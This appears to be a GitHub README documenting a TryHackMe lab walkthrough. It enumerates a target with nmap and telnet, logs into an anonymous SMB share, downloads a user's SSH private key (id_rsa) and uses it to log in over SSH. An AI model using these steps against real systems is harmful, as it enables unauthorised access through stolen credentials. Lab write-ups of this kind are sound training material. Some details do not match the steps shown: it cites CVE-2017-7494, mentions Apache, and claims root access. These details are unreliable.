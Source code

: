 ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/102683de-0cb6-454e-87cd-c3479e87a596)# Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access target's assets by exploiting vulnerable services to exfiltrate valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)
      - `telnet 10.10.177.199 8012`
         - Now you can connect to the telnet server using the discovered port 8012
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)


  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
	- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
	- Press enter on the password because there is no password set
	- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)

	- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)

	- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)

	- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)

	- To download type `get id_rsa`
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)

	- Type `chmod 600` id_rsa to change the permissions
![chmod](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/c0217817-5203-46c4-9743-66995a57566a)

	- Type `ssh cactus@10.10.242.131 -i id_rsa` to access the server
![Screenshot 2024-05-20 190916](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/b61b84c7-f850-4c50-b0bd-147bcbfecbfd)

	- Type `ls`  to show files then `cat smb.txt` to view text file
![Screenshot 2024-05-20 191157](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/145c3e10-0603-4e3e-a297-f55fee5498ee)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

